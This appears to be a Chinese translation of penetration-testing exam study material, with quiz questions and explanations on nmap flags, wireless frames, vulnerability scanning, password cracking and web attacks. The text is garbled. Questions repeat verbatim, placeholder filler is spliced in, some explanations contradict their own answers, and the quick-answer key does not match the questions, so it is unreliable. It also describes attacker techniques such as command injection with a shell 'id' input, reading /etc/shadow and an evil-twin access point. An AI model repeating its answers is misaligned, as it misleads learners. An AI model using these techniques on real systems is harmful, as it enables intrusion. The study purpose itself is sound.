  **C.** 数据帧 (Data frame)

  **D.** 控制帧 (Control frame)

**3 .** 哪个 `nmap` 标记用于禁用主机名的 DNS 解析？

  **A.** `-sL`

  **B.** `-n`

  **C.** `-oG`

  **D.** `-Pn`

**4 .** `nmap` 中 `-PS` 标记的作用是什么？

  **A.** 触发针对命名端口的 SCTP 发现

  **B.** 触发针对命名端口的 TCP ACK 发现

  **C.** 触发针对命名端口的 UDP 发现

  **D.** 触发针对命名端口的 TCP SYN 发现

**5 .** 下列哪项用于辅助信息收集过程的主扫描技术，其目标是识别网络上活跃且正在监听的主机？

  **A.** 端口扫描

  **B.** 汽车漫游 (Wardriving)

  **C.** 随机碰撞 (Stumbling)

  **D.** 主机发现 (Host discovery)

**6 .** 哪个开源命令行工具用于在有线和无线网络上的多项针对渗透测试的活动，例如调查主机的开放端口、操作系统指纹识别以及收集服务标头？

  **A.** Shodan

  **B.** `Nmap`

  **C.** `Aircrack-ng`

  **D.** `Theharvester`

**7 .** `nmap` 中 `-v` 标记的作用是什么？

  **A.** 表示要扫描的目标列表

  **B.** 防止 DNS 解析

  **C.** 增加扫描输出的详细程度

  **D.** 禁用 ping 并跳过主机发现

**8 .** 下列哪项是用于进行无线网络 RF 通监控和安全测试的开源工具套？

  **A.** Shodan

  **B.** `Aircrack-ng`

  **C.** `Nmap`

  **D.** `Theharvester`

**9 .** 哪个流行的工具用于无线发现，并提供了许多与 `airodump-ng` 相同的功能？

  **A.** `Kismet`

  **B.** `Nmap`

  **C.** Shodan

  **D.** `Onesixtyone`

**10 .** 哪种主帧（由 IEEE 802.11 无线标准定义）有助于将数据帧传送到每个站？

  **A.** 取消认证帧 (Deauthentication frame)

  **B.** 解离帧 (Disassociation frame)

  **C.** 控制帧 (Control frame)

  **D.** 管理帧 (Management frame)

**11 .** 哪种管理帧的子类型包含无线接入点的详细信息（包括但不限于 SSID、加密细节、MAC 地址和 Wi-Fi 通道），这些信息可以使恶意能够监听无线网络？

  **A.** 认证帧 (Authentication frame)

  **B.** 请求发送 (RTS) 帧

  **C.** 信标帧 (Beacon frame)

  **D.** 关联请求帧 (Association request frame)

**12 .** `nmap` 中 `-Pn` 标记的作用是什么？

  **A.** 禁用 ping 并跳过主机发现

  **B.** 防止 DNS 解析

  **C.** 禁用端口扫描并强制进行简单的 ping 扫描

  **D.** 以 XML 格式输出扫描细节

**13 .** 哪个 `nmap` 标记应该放在包含目标列表的文件之前？

  **A.** `-Pn`

  **B.** `-iL`

  **C.** `-sn`

  **D.** `-oA`

**14 .** 下列哪项不是 IEEE 802.11 无线标准定义的帧类型？

  **A.** 控制帧 (Control frame)

  **B.** 信标帧 (Beacon frame)

  **C.** 数据帧 (Data frame)

  **D.** 管理帧 (Management frame)

根据以下 `nmap` 输出回答接三个问题：


**15 .** 下列哪项 `nmap` 选项会导致所示端口被扫描？

  **A.** `-sL`

  **B.** `-top-ports=200`

  **C.** `-v`

  **D.** `-sS`

**16 .** 下列哪项 `nmap` 选项会导致所示端口被扫描？

  **A.** `-sL`

  **B.** `-top-ports=200`

  **C.** `-v`

  **D.** `-sS`

**17 .** 下列哪项 `nmap` 选项会导致所示端口被扫描？

  **A.** `-sL`

  **B.** `-top-ports=200`

  **C.** `-v`

  **D.** `-sS`

**18 .** 下列哪项 `nmap` 选项会导致所示端口被扫描？

  **A.** `-sL`

  **B.** `-top-ports=200`

  **C.** `-v`

  **D.** `-sS`

**19 .** 下列哪项 `nmap` 选项会导致所示端口被扫描？

  **A.** `-sL`

  **B.** `-top-ports=200`

  **C.** `-v`

  **D.** `-sS`

**20 .** 下列哪项 `nmap` 选项会导致所示端口被扫描？


`A` , `C` , 和 `D` 是错误的。`A` 是错误的，因为 `aireplay-ng` 用于向无线网络中注入数据包以生成流量。`C` 是错误的，因为 `airodump-ng` 用于无线嗅探。`D` 是错误的，因为 `airdecap-ng` 用于解密 WEP- 和 WPA- 加密的 PCAP 文件。

### 2 .
哪种类型的主帧（由 `IEEE 802.11` 无线标准定义）允许基站与接入点建立并维持网络通信？

**A.** 去去关联帧 (Disassociation frame)
**B.** 管理帧 (Management frame)
**C.** 数据帧 (Data frame)
**D.** 控制帧 (Control frame)

`B` . 管理帧允许基站与接入点建立并维持网络通信。

`A` , `C` , 和 `D` 是错误的。`A` 是错误的，因为去关联帧不是主帧类型；而是管理帧的一个子类型。`C` 是错误的，因为数据帧从 OSI 模型的较高层传输信息。`D` 是错误的，因为控制帧确保数据帧被递送到每个基站。

### 3 .
哪一个 `nmap` 标志用于禁用主机名的 DNS 解析？

**A.** `-sL`
**B.** `-n`
**C.** `-oG`
**D.** `-Pn`

`B` . `-n` `nmap` 标志用于禁用主机名的 DNS 解析。

`A` , `C` , 和 `D` 是错误的。`A` 是错误的，因为 `-sL` 标志用于列出待扫描多个目标。`C` 是错误的，因为 `-oG` 标志将扫描结果以易于 grep 的格式保存到文件中。`D` 是错误的，因为 `-Pn` 标志禁用 ping 并跳过主机发现。

### 4 .
`nmap` 中 `-PS` 标志的作用是什么？

**A.** 触发向命名端口的 SCTP 发现
**B.** 触发向命名端口的 TCP ACK 发现
**C.** 触发向命名端口的 UDP 发现
**D.** 触发向命名端口的 TCP SYN 发现

`D` . `-PS` 标志用于对声明端口进行 TCP SYN 发现。

`A` , `B` , 和 `C` 是错误的。`A` 是错误的，因为 SCTP 发现是 `-PY` 标志的结果。`B` 是错误的，因为 TCP ACK 发现是 `-PA` 标志的结果。`C` 是错误的，因为 UDP 发现是 `-PU` 标志的结果。

### 5 .
以下哪项用于辅助信息收集过程的活动扫描技术，其目的是识别网络上活跃且监听的主机？

**A.** 端口扫描 (Port scanning)
**B.** 汽车漫游 (Wardriving)
**C.** 随机碰撞 (Stumbling)
**D.** 主机发现 (Host discovery)

`D` . 主机发现是一种用于辅助信息收集过程的活动扫描技术，其目的是识别网络上活跃且监听的主机。主机发现最简单的方法是发现扫描，通常仅进行 ping 扫描。然而，必须注意，因为目标网络通常会自动丢弃所有 ICMP 请求。在这种情况下，必须使用隐蔽连接。

`A` , `C` , 和 `D` 是错误的。`A` 是错误的，因为端口扫描不是用于识别活跃主机的。`C` 是错误的，因为汽车漫游是寻找无线网络。`D` 是错误的，因为随机碰撞是。


**A** . `Kismet` 用于无线发现，具有与 `airodump-ng` 许多相同的功能。`Kismet` 擅长检测无线信道中的现有网络、嗅探数据以及检测入侵。

**B**, , **C**, 和 **D** 都是错误的。`nmap`、`Shodan` 和 `onesixtyone` 都不用于无线发现。`nmap` 是一个端口扫描工具，用于对目标组织、网络或主机进行主动侦察。`Shodan` 是一个物联网搜索引擎，因此它关注的是连接到互联网的设备。最后，`onesixtyone` 是一个 SNMP 扫描器和枚举器。所有这些工具都可以在有线或无线连接上使用。

### 10 . 哪种主帧（由 IEEE 802.11 无线标准定义）有助于将数据帧传输到每个站？

**A.** 去身份验证帧 (Deauthentication frame)
**B.** 取消关联帧 (Disassociation frame)
**C.** 控制帧 (Control frame)
**D.** 管理帧 (Management frame)

**C** . `Control frames` 有助于将数据帧传输到每个站。

**A**, , **B**, 和 **D** 都是错误的。**A** 和 **B** 是错误的，因为去身份验证帧和取消关联帧是管理帧的子类型，并不有助于数据帧的传输。**D** 是错误的，因为管理帧允许站点建立并维持通信。

### 11 . 哪种管理帧的子类型包含有关无线接入点的详细信息（包括但不限于 SSID、加密细节、MAC 地址和 Wi-Fi 信道），这些信息可以使恶意代理能够监听无线网络？

**A.** 身份验证帧 (Authentication frame)
**B.** 请求发送帧 (RTS frame)
**C.** 信标帧 (Beacon frame)
**D.** 关联请求帧 (Association request frame)

**C** . `beacon frame` 包含有关无线接入点的详细信息（如 SSID、加密细节、MAC 地址和 Wi-Fi 信道），这些信息可以使恶意代理能够监听无线网络。这是由于设备“记忆”无线网络的方式。`beacon frame` 向该区域内的所有设备说：“这是 $Company\_Network$”，无论该设备是否代表该网络。当设备在开机或检查信号后尝试连接到 Wi-Fi 网络时，它会遍历其内部的已记忆 Wi-Fi 网络列表，直到找到正在广播的网络。问题在于，没有验证机制来确认 `beacon frame` 的源是否确实是所的网络；因此，恶意代理可以运行一个具有相同 SSID 名称的伪造接入点来欺骗设备连接，然后将所有入站流量通过 `Burp` 或另一个代理路由，以监控网络使用、收集密码或识别目标主机上的共享存储。

**A**, , **B**, 和 **D** 都是错误的。**A** 和 **D** 是错误的，虽然它们是管理帧的子类型，但 **B** 是请求发送 (RTS) 帧，它是一种控制帧。

### 12 . `-Pn` 标志的作用是什么？

**A.** 禁用 ping 并跳过发现
**B.** 防止解析
**C.** 禁用端口扫描
**D.** 以 XML 格式输出扫描结果

**A** . `-Pn` 标志禁用 ping 并跳过发现。

**B**, , **C**, 和 **D** 都是错误的。**B** 是错误的，因为 `-n` 标志才是防止 DNS 解析。**C** 是错误的，因为 `-sn` 标志禁用了端口扫描。**D** 是错误的，因为 `-oX` 以 XML 格式输出扫描。

### 13 . 哪种 nmap 标志应该放在待扫描目标列表之前？

**A.** `-Pn`
**B.** `-iL`
**C.** `-sn`
**D.** `-oA`

**B** . `-iL` 标志应该放在待扫描目标列表之前。

### 14 . 下列哪不是 IEEE 802.11 无线通信标准定义的主帧类型？

**A.** 控制帧 (Control frame)
**B.** 信标帧 (Beacon frame)
**C.** 数据帧 (Data frame)
**D.** 管理帧 (Management frame)

**B** . `beacon frame` 是管理帧的子类型。因此，它不是主帧类型，所以它是此题的正确答案。

### 15 . 下列哪个 nmap 选项会导致所示的端口被扫描？

**A.** `-sL`
**B.** `-top-ports=200`
**C.** `-v`
**D.** `-sS`

**B** . 正确答案是 `-top-ports=200`。线索在于列出的已扫描端口总数：显示的 11 个开放端口加上未显示的 189 个关闭端口，意味着在此次扫描中仅探测了 200 个端口。


进入 `/path/to/xxx` 目录，找到 `xxx`。

在表达式 `cvar = avar + bvar` 中，加法运算符（`+`）将 `avar` 与 `bvar` 相加，得到它们的 `cvar`。

在 `List.of(arg0, arg1)` 中，`List` 接口的工厂方法 `of()` 接受一系列元素，返回它们的只读列表。之后我们这样调用 `cmd` 命令：`cmd arg0 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```


漏洞扫描与网络扫描和发现密切相关，它是渗透测试人员工具箱中的另一个关键组件。漏洞扫描建立在从网络扫描和枚举中获取的知识之上，是渗透测试人员开始识别攻击和利用优先级目标的地方。在计划漏洞扫描时，必须权衡许多因素：例如，可用时间可能会限制渗透测试人员调查问题的深度，或者可能存在基于合规性的考量，这些各种法律或法规规定了特殊要求。如果进行的是白盒评估，则可能必然涉及凭据扫描，即为使用的扫描工具提供合法的身份验证凭据；在这种情况下，目标不仅是测试所涉及的服务或资源的外部部分，还要测试该服务或资源对用户进行适当“沙箱化”的能力，防止其访问不需要的工具和选项。

一旦完成漏洞扫描，渗透测试人员不仅要对所获得的信息进行分类，还要进行验证和优先级排序；尝试对发现的漏洞进行主动利用的活动，是渗透测试区别于简单漏洞评估的。这意味着测试人员不能简单地信任扫描工具的输出；必须验证发现的结果以防止出现误报，并对识别出的漏洞进行优先级排序，以便首先测试最可能的入侵途径。这种排序——通常被称为“寻找易得的果实”（low-hanging fruit）——是成功渗透测试的关键元素。考虑到渗透测试是在有限的时间内进行的，因此测试人员的利益在于减少每项活动投入的时间，同时提高时间回报。这进一步要求测试人员通过将发现的漏洞映射到潜在的利用程序或攻击方法来制定攻击计划。即使在攻击前做了大量工作，成功可能仍需要额外的关注——例如，可能需要修改或交叉编译利用代码，或者对系统的成功利用可能需要测试人员将多个低关键性漏洞组合在一起。

最后，本章将评估候选人对特定特殊计算机系统类特定漏洞的认识。例如，IoT 或嵌入式设备容易出现自己的通用漏洞，销售点（POS）系统和 SCADA 系统也是如此。理解这些漏洞类型对于渗透测试人员来说是真正的力量倍增器，因为了解这些漏洞趋势可以更容易识别出“易得的果实”。

***

### Q QUESTIONS

***

**[1].** 下列哪项*不是*用于漏洞研究和分析的公开访问列表？

**A.** 常见漏洞与披露 (CVE)
**B.** 日本计算机应急响应小组 (JPCERT)
**C.** 常见弱枚举 (CWE)
**D.** 常见攻击模式枚举与分类 (CAPEC)

**[2].** 下列哪项是一个公开的、厂商中立的论坛和邮件列表，为安全社区发布漏洞分析细节、利用技术和其他相关信息？

**A.** US-CERT
**B.** MITRE
**C.** NIST
**D.** Full Disclosure

**[3].** 与无凭据扫描相比，运行带凭据扫描的以下哪项是主要优势？

**A.** 已知无凭据扫描会产生更多误报
**B.** 凭据扫描能更准确地代表真实世界的状况
**C.** 无凭据扫描倾向于发现更多信息
**D.** 凭据扫描通常更快。

**[4].** 美国国立标准与技术研究院 (NIST) 使用通用漏洞评分系统 (CVSS) 维护哪种用于漏洞分析的公开资源？

**A.** Full Disclosure
**B.** NVD
**C.** CWE
**D.** OWASP

**[5].** 下列哪项描述了 nmap 中的发现扫描（discovery scan）？（选择两项。）

**A.** 它是一种主动技术
**B.** 它扫描所有 65,000 多个端口
**C.** 它执行简单的 ping 以判断主机是否在线
**D.** 它识别在开放端口上运行的软件和版本

**[6].** nmap 中的隐身扫描（stealth scan）由哪个标志表示并利用 SYN 包？

**A.** `-sT`
**B.** `-sU`
**C.** `-sS`

**[7].** 支持安全内容自动化协议 (SCAP) 的扫描器（如 Tenable 的 Nessus）测试互联网安全中心 (CIS) 最佳实践安全基线的实现。这些基线对于哪种扫描最有帮助？

**A.** 全扫描
**B.** 发现扫描
**C.** 合规扫描
**D.** 隐身扫描

**[8].** 监控制与数据采集 (SCADA) 是一种实时控制系统，监控哪种类型基础设施组件的健康和状态？

**A.** 用于制造、发电、水处理和其他公共工程的工业控制系统 (ICS)
**B.** 销售点系统
**C.** 如 MP3 播放器、智能手机和电子阅读器等嵌入式系统
**D.** 如指纹和视网膜读取器的生物识别扫描仪

**[9].** 下列哪项*不是*非位置资产（nontitional asset）的示例？

**A.** 实时操作系统 (RTOSs)
**B.** SCADA 网络
**C.** Linux 服务器
**D.** IoT 设备

**[10].** 下图所示工具提供了 Web 和应用程序安全测试功能。它叫什么？

**A.** Nikto
**B.** W3AF
**C.** Burp Suite
**D.** OpenVAS 

**[11].** 在执行漏洞扫描时，以下哪项*不是需要考虑的问题？

**A.** 已知在环境中使用的服务和协议
**B.** 带宽限制
**C.** 所涉及网络的整体拓扑结构
**D.** 被测试软件或操作系统的开发者的公众声誉

**[12].** 为什么在渗透测试期间可能对目标系统的查询进行限制（throttle）？

**A.** 防止你的测试系统变慢
**B.** 防止数据量导致硬盘写满
**C.** 为了更准确地模拟真实的服务使用状况
**D.** 为了避免通过有效运行拒绝服务攻击导致系统或服务崩溃，或者通过不触发日志传感器或其他警报来避免检测

**[13].** 除了在合规性渗透测试中的价值外，使用 CIS 预配置运行基线扫描模板对环境测试的以下哪项是另一种优势？

**A.** 减少渗透测试人员的工作量
**B.** 简化扫描过程


## C. 辅助组织安全策略的开发
### D. 协助组织进行资产分类并实施行业最佳实践

### 14. 下哪项*不是*在渗透测试期间执行漏洞扫描的好处？

**A.** 帮助渗透测试人员根据最可能产生结果的漏洞对攻击向量进行手动测试优先级排序
**B.** 在运行的系统之外对应用程序代码进行彻底审查，以获取漏洞细节
**C.** 通过自动化漏洞发现协助在渗透测试期间进行时间管理
**D.** 通过让渗透测试人员关注高优先级（即高风险）的漏洞，从而提高渗透测试和最终报告的整体质量

### 15. 如下面的输出所示，此开源命令行工具是一个 Web 服务器扫描器，用于测试危险文件或 CGIs、过时的服务器软件和其他问题。

**A.** OpenVAS
**B.** Dirbuster
**C.** Nikto
**D.** Gobuster



### 16. 下哪项不是漏洞扫描结果中常见的报告主题或问题？

**A.** 观察结果 (Observations)
**B.** 漏洞利用 (Exploits)
**C.** 漏洞 (Vulnerabilities)
**D.** 未能应用行业最佳实践

### 17. 下哪项是漏洞扫描结果中典型的漏洞识别示例？

**A.** 扫描期间泄露的软件版本号。
**B.** 系统 Web 应用未启用 HTTP 严格传输安全 (HSTS)。
**C.** 操作系统指纹识别显示系统运行 Windows XP SP2，表明其易受受到 MS08-067 漏洞的影响。
**D.** 发现 SSLv2 和 v3 处于启用状态。

### 18. 下哪项是漏洞扫描结果中典型的“未应用最佳实践”的示例？

**A.** 系统 Web 应用未启用 HTTP 严格传输安全 (HSTS)。
**B.** 目标被识别为 Apache Web 服务器。
**C.** 扫描期间泄露了软件版本号。
**D.** 操作系统指纹识别显示系统运行 Windows XP SP2，表明其易受到 MS08-067 漏洞的影响。

### 19. 下哪项是漏洞扫描结果中典型的“观察结果”的示例？

**A.** 操作系统指纹识别显示系统运行 Windows XP SP2，表明其易受到受到 MS08-067 漏洞的影响。
**B.** Web 应用的 robots.txt 文件专门拒绝对 `/cgi-bin/` 目录的所有访问。
**C.** 系统 Web 应用未启用 HTTP 严格传输安全 (HSTS)。
**D.** 发现 SSLv2 和 v3 处于启用状态。

### 20. 下哪项是静态应用程序分析的示例？

**A.** 使用 `Nikto` 和 `dirbuster` 扫描运行中的 Web 应用以识别潜在缺陷
**B.** 对活动运行实例之外的应用程序的编写代码进行分析
**C.** 使用 `Burp` 爬取 Web 应用程序的用户界面
**D.** 使用垃圾输入对运行中的 Web 应用进行模糊测试，以评估该应用程序的响应

### 21. 下哪项是动态应用程序分析的示例？

**A.** 在活动运行实例之外的程序程序的编写代码中搜索编程缺陷
**B.** 使用垃圾输入对运行中的 Web 应用进行模糊测试，以评估该应用程序的响应
**C.** 在编写的代码中搜索恶意放置的后门
**D.** 分析应用程序代码并将函数与已知的编程最佳实践（如查询参数化）进行比较

### 22. 下哪项*不是* CVE 编号机构（CNA）维护的 CVE 细节？

**A.** PoC 利用代码
**B.** CVE ID
**C.** 漏洞的简要描述
**D.** 外部引用或公告

### 23. 下哪项不是由 CWE 维护的安全弱点分类？

**A.** 编程概念 (Programming concepts)
**B.** 开发概念 (Development concepts)
**C.** 研究概念 (Research concepts)
**D.** 架构概念 (Architectural concepts)

### 24. 下哪项是 CWE 条目提供的标识符？

**A.** 弱点 ID (Weakness ID)
**B.** 引入模式 (Modes of introduction)
**C.** 利用概率 (Likelihood of exploit)
**D.** A、B 和 C

### 25. 示例屏幕显示了一个能够自动化大部分渗透过程的产品工具。该工具支持凭据和无凭据扫描，是市场上最流行的商业工具之一。

**A.** `Nikto`
**B.** `OpenVAS`
**C.** `Burp Suite`
**D.** `Nessus`


### 26. CAPEC 详细介绍了数千种已知攻击模式和方法。下哪项*不是*攻击领域？

**A.** 社会工程 (Social Engineering)
**B.** 供应链 (Supply Chain)
**C.** 物理安全 (Physical Security)
**D.** 固件 (Firmware)

### 27. 在渗透测试期间，你从 Web 数据库中识别并收集了加密密码。你没有所用加密方法的彩虹表，字典攻击也没有成功。作为攻击者，你可以利用哪种剩余的攻击方法（通常是最后的手段）来解密你收集的密码？

**A.** 策略性猜解 (Strategic guessing)
**B.** 暴力破解 (Brute force)
**C.** `XSS`
**D.** `CSRF`

### 28. 哪种密码破解方法利用了随着真实密码发现而不断扩展的词表？

**A.** 字典攻击 (Dictionary attack)
**B.** 暴力破解 (Brute force)
**C.** 联系账户所有者并冒充 IT 部门让他们泄露密码
**D.** 彩虹表 (Rainbow tables)

### 29. 哪种密码破解方法需要巨大的存储容量，有时总量超过 300 GB？

**A.** 暴力破解 (Brute force)
**B.** 词表攻击 (Wordlist attack)
**C.** 彩虹表 (Rainbow tables)
**D.** 字典攻击 (Dictionary attack)

### 30. Nessus 在生成漏洞严重性信息时结合了 NVD 的 CVSS。对于渗透测试人员来说，下哪项不是这些信息的用途？

**A.** 将漏洞映射到潜在的利用工具
**B.** 为渗透测试人员的攻击计划提供信息
**C.** 识别适用于目标软件版本的潜在利用工具
**D.** 为新闻稿填充图表数据

### 31. 在渗透测试期间，你在 Web 应用上发现了一个活跃的本地文件包含 (LFI) 漏洞，允许你查看目标系统上的任何文件，包括 `/etc/passwd` 和 `/etc/shadow` 文件。利用这些信息，你将 shadow 文件中的密码哈希值输入 `hashcat` 并使用字典攻击破解它们，最终找到一个匹配项，允许你在目标系统上获得一个低权限 shell。这是哪种示例？

**A.** 漏洞利用链 (Exploit chaining)
**B.** 漏洞利用修改 (Exploit modification)
**C.** 社会工程学 (Social engineering)
**D.** 未遵循行业最佳实践


### 32. 在对 Web 应用进行渗透测试期间，你发现用户会话 ID（或令牌）在身份验证后暴露在 URL 中。你进一步发现这些会话 ID 是可预测的递增值，而不是随机生成的数字或字符串。该应用程序可能受到以下哪种攻击类型的影响？

A. SQL 注入
B. 远程文件包含
C. 跨站脚本
D. 会话劫持

### 33. 在系统或服务中使用默认身份凭据的危险是以下哪一项？

A. 管理员密码可能被轻易破解。
B. 管理员密码几乎可以出现在字典攻击中使用的任何主要词表中。
C. 只要对相关服务进行简短的互联网搜索即可找到管理员密码。
D. 以上所有。

### 34. 下列哪项*不是*弱身份凭据的潜在特征？

A. 密码是一个字典单词。
B. 密码长度超过 50 个字符且具有较大的字符集。
C. 密码总长度小于八个字符。
D. 密码与用户名相同。

### 35. 下图所示工具是一个免费的开源密码破解工具，适用于许多 *nix 和 Windows 体，并利用系统 CPU。此示例输出显示了使用词表破解哈希列表的结果。

A. John the Ripper
B. Hashcat
C. Cewl
D. Medusa



### 36. 哪种 Web 应用测试通过向网页参数中输入任意值来试图引发意外响应？

A. 错误代码分析
B. 跨站脚本
C. HTTP 参数污染
D. 跨站请求伪造

### 37. 下列哪项*不是*服务器、Web 应用和数据库缺少错误处理或过度详细的错误处理的潜在后果？

A. 操作系统或软件版本泄露
B. 泄露应用程序或数据库的用户名上下文
C. 点击劫持（Clickjacking）
D. 泄露应用程序或数据库的目录信息

### 38. 在 Web 应用的一个字段中，你发现通过输入分号和 *nix 命令 `id`，可以找到服务器上应用程序的用户名上下文。这是哪种攻击的示例？

A. 暴力破解
B. 命令注入
C. 会话劫持
D. 重放攻击

```
id
```

### 39. 寻找目标系统或服务的全部可用信息以支持制定攻击计划的过程是什么？

A. 漏洞映射
B. 漏洞扫描
C. 枚举（Enumeration）
D. 指纹识别（Fingerprinting）

### 40. 哪个术语描述了详细已识别的安全漏洞及其位置的过程？

A. 漏洞映射
B. 交叉编译
C. 交叉构建
D. 漏洞利用修改

### 41. 哪个行为描述了编写首个漏洞利用程序以演示或武器化漏洞？

A. 漏洞利用修改
B. 交叉编译
C. 概念验证开发（PoC 开发）
D. 威胁狩猎

### 42. 下列哪项*不是*在准备渗透测试时合理安排活动优先级的结果？

A. 单个活动所需的时间缩短，时间投入回报率增加。
B. 更快地识别并关注“易得的果实”。
C. 更快地制定成功概率更高的攻击计划。
D. 以上均不是；所有选项都是渗透测试准备及期间活动优先级排序产生的结果。

### 43. 下图所示的工具是一个适用于 Linux、Windows 和 macOS 的免费开源密码破解工具，利用系统 CPU 或 GPU。此示例输出显示了使用词表破解哈希列表的结果。

A. Hashcat
B. John the Ripper
C. Cain and Abel
D. Hydra



### 44. 哪个 CAPEC 的攻击领域关注各自生命周期内的计算机硬件和软件？

A. 软件
B. 供应链
C. 物理安全
D. 通信

### 45. 由 MITRE 维护的哪个知识库详细说明了用于攻击组织的技术？

A. CWE
B. CVE
C. CAPEC
D. ATT&CK

### 46. 下列哪项*不是*渗透测试常用的漏洞扫描器？

A. Nessus
B. OpenVAS
C. SQLmap
D. IDA

### 47. 除了作为合规性评估的方法外，\_\_\_\_\_\_\_\_\_ 是使用特定标准进行自动发现和测量漏洞的方法。

A. HIPAA
B. FISMA
C. SCAP
D. PCI DSS

***

### 快速答案

***

1. B
2. D
3. A
4. B
5. A, C
6. D
7. C
8. A
9. C
10. A
11. C
12. D
13. D
14. B
15. A
16. C
17. B
18. A
19. C
20. B
21. B
22. A
23. D
24. D
25. D
26. D
27. C

***

### 深度解析

***

1. 下列哪项*不是*用于漏洞研究和分析的公开访问列表？

A. 常见漏洞与披露 (CVE)


## B. 日本计算机应急响应小组 (JPCERT)

## C. 常见弱性枚举 (CWE)

## D. 常见攻击模式枚举与分类 (CAPEC)

**B** 是正确的。日本计算机应急响应小组（或 `JPCERT`）是一个由日本政府支持的网络安全信息共享组织，而不是此类组织提供的特定资源。

**A**、**C**、和 **D** 都是错误的。**A** 是错误的，因为常见漏洞与暴露（或 `CVE`（`[`cve.mitre.org`](https://cve.mitre.org)`））是由 MITRE 提供的公开已知网络安全漏洞条目列表（MITRE 是公司名称，而不是缩写）。每个条目包含一个标识、一个描述和一个后续信息的引用。**C** 是错误的，因为常见弱性枚举（或 `CWE`（`[`cwe.mitre.org`](https://cwe.mitre.org)`））是由 MITRE 管理的常见软件弱性社区开发列表。根据 MITRE，`CWE` 为弱性识别、缓解和预防提供了基础。**D** 是错误的，因为常见攻击模式枚举与分类（或 `CAPEC`（`[`capec.mitre.org`](https://capec.mitre.org)`））是 MITRE 提供的字典，有助于分析师、开发者和测试人员更好地理解各种类型的攻击。

2. 下列哪一个是公开的中立论坛和邮件列表，发布漏洞分析、利用技术和其他网络安全社区的相关信息？

**A.** `US-CERT`
**B.** `MITRE`
**C.** `NIST`
**D.** `Full Disclosure`

**D** 是正确的。`Full Disclosure`（`[`seclists.org/fulldisclosure`](http://seclists.org/fulldisclosure)`））是一个中立论坛，详细讨论漏洞和利用技术。它还提供工具、新闻和网络安全社区感兴趣的内容。

**A**、**B** 和 **C** 都是错误的。**A** 是错误的，因为 `US-CERT`（或美国计算机应急响应小组）是 `MITRE` 管理的资源的核心赞助者，例如 `CVE` 和 `CWE`，而不是特定的网络安全资源。`US-CERT` 维护邮件列表和安全问题及漏洞信息（例如其 `www.us-cert.gov/ncas/alerts`），本身并不是一个列表。**B** 是错误的，虽然 `MITRE` 执行安全研究并公开发布其发现，它是向社区提供 `CVE`、`CWE` 和 `CAPEC` 的组织。**C** 是错误的，因为 `NIST`（或美国标准与技术研究院）是美国商务部的一个政府机构，负责漏洞研究并公开发布其发现。

3. 使用有凭证扫描代替无凭证扫描的主要优点是以下哪个？

